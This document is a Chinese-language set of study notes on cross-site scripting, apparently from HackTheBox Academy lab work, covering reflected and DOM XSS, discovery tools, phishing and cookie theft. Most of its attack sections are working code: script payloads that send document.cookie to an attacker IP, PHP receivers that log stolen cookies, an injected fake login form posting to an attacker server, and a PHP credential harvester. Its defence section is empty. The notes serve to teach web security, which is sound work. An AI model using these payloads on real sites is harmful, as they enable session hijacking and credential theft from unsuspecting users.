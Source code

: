 # xss基础


### 存储型


### 反射型

有两种类型的`非持久性 XSS` 漏洞：`反射型 XSS，`由后端服务器处理，以及`基于 DOM 的 XSS`，它完全在客户端处理，永远不会到达后端服务器。与持久性 XSS 不同，`非持久性 XSS` 漏洞是暂时的，不会在页面刷新后持续存在。因此，我们的攻击只影响目标用户，不会影响访问该页面的其他用户。

当我们的输入到达后端服务器并在未经过过滤或清理的情况下返回给我们时，就会发生`反射型 XSS` 漏洞。在许多情况下，我们的整个输入可能会返回给我们，例如错误消息或确认消息。在这些情况下，我们可能会尝试使用 XSS 有效负载来查看它们是否执行。但是，由于这些通常是临时消息，一旦我们从页面移动，它们就不会再次执行，因此它们是`非持久的`。

**HTBA的例子-cookie**

需要一个可以接收cookie的服务器，可以拿python直接创建一个：
```bash
python3 -m http.server
```

还需要一个可以执行获取cookie的php文件：
```php
<?php $cookie = $_GET['cookie']; 
$ip = getenv('REMOTE_ADDR'); 
$time = date('Y-m-d g:i:s'); 
$referer = getenv('HTTP_REFERER'); 
$fp = fopen( 'cookie.txt', 'a'); 
fwrite($fp,"IP: ".$ip." │ Date And Time: ".$time." | Referer: ".$referer." | Cookie: ".$cookie.'|||'); 
fclose($fp); 
?>
```

然后就是payload:
```javascript
<script>document.write('<img src="http://10.10.16.30:8000/getcookie.php?cookie='+document.cookie+'" />');</script>
```

把payload输入文本框就可以拿到cookie了。

### DOM xss

`反射型 XSS` 通过 HTTP 请求将输入数据发送到后端服务器，而 DOM XSS 则完全通过 JavaScript 在客户端进行处理。当使用 JavaScript 通过`文档对象模型 （DOM）` 更改页面源时，会发生 DOM XSS。

另一方面，`Sink` 是将用户输入写入页面上的 DOM 对象的函数。如果 `Sink` 函数没有正确清理用户输入，则容易受到 XSS 攻击。一些常用的 JavaScript 函数可以写入 DOM 对象：
- `document.write()`
- `DOM.innerHTML`
- `DOM.outerHTML`

此外，一些写入 DOM 对象的 `jQuery` 库函数是：
- `add()`
- `after()`
- `append()`

如果我们尝试之前一直在使用的 XSS 有效负载，我们将看到它不会执行。这是因为 `innerHTML` 函数不允许在其中使用 `<script>` 标签作为安全功能。尽管如此，我们还使用许多其他不包含 `<script>` 标记的 XSS 有效负载，例如以下 XSS 有效负载：
```html
<img src="" onerror=alert(window.origin)>
```
上面的代码行创建了一个新的 HTML 图像对象，该对象具有一个 `onerror` 属性，该属性可以在找不到图像时执行 JavaScript 代码。因此，由于我们提供了一个空的图像链接 （`“”`），因此我们的代码应该始终执行，而不必使用 `<script>` 标签

### 自动发现

几乎所有的 Web 应用程序漏洞扫描程序（如 [Nessus](https://www.tenable.com/products/nessus)、[Burp Pro](https://portswigger.net/burp/pro) 或 [ZAP](https://www.zaproxy.org/)）都具有检测所有三种类型的 XSS 漏洞的各种功能

一些可以帮助我们发现 XSS 的常见开源工具是 [XSS Strike](https://github.com/s0md3v/XSStrike)、[Brute XSS](https://github.com/rajeshmajumdar/BruteXSS) 和 [XSSer](https://github.com/epsylon/xsser)。

### 手动发现

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) 上的 XSS 有效负载列表或 [PayloadBox](https://github.com/payloadbox/xss-payload-list) 中的有效负载列表


# xss攻击

### 页面污损

嘲讽专用，慎重学习，容易被打死

### 钓鱼

xss居然可以钓鱼

XSS 网络钓鱼攻击的一种常见形式是通过注入虚假登录表单，将登录详细信息发送到攻击者的服务器，然后可以使用该服务器代表受害者登录并控制他们的帐户和敏感信息。

注入代码：
```html
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP10.10.16.28:8000/><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

删除掉image url的代码：

```html
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

删除url表单：
```javascript
document.getElementById('urlform').remove();
```

image url的代码：
```html
<form role="form" action="index.php" method="GET" id="urlform">
                <input type="text" placeholder="Image URL" name="url">
            </form>
```

本机服务器处理的php代码：

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

建立php监听服务器;
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
```

### 会话劫持



# xss防护



# 实战

**xss获取cookie**
```javascript
<script>document.write('<img src="http://192.168.211.1/xss/getcookie.php?cookie='+document.cookie+'" width=0 height=0 border=0 />');</script>
```

自己服务器运行的php接收文件：
```php
<?php $cookie = $_GET['cookie']; 
$ip = getenv('REMOTE_ADDR'); $time = date('Y-m-d g:i:s'); 
$referer = getenv('HTTP_REFERER'); 
$fp = fopen( 'cookie.txt', 'a'); fwrite($fp,"IP: ".$ip." │ Date And Time: ".$time." | Referer: ".$referer." | Cookie: ".$cookie.'|||'); 
fclose($fp); 
?>
```


